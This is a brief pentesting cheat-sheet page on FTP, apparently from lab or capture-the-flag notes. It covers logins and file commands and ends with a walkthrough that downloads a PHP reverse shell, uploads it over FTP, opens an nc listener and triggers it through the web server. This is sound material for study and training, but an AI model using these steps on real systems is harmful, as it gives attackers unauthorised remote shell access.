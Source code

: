 ```yaml
---
title: FTP
desc: Connect to FTP server.
tags: [FTP, Linux]
alts: []
website:
render_with_liquid: false
---
```


## Basic Usage

```sh
ftp username@10.0.0.1

# Anonymous login
ftp 10.0.0.1 
username: anonymous
password: anonymous
```

<br />

## Commands in FTP

```sh
# List files in current directory
ftp> ls

# Transfer files to the local machine.
ftp> get sample.txt
```

<br />

## Upload Reverse Shell Exploit

If the target website (usually port: 80) allows users to access the ftp directory, you can upload the exploit for the reverse shell and get shell.

```sh
# Get the payload for Reverse Shell from the website
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

# Edit "ip" and "port" in the file.

# ----------------------------------------

# Upload the payload
ftp> put php-reverse-shell.php

# -------------------------------------------

# Open the listening port on the attack machine
nc -lvnp 1234

# ---------------------------------------------

In browser, access to the http://vulnerable.com/path/to/ftp/php-reverse-shell.php
```
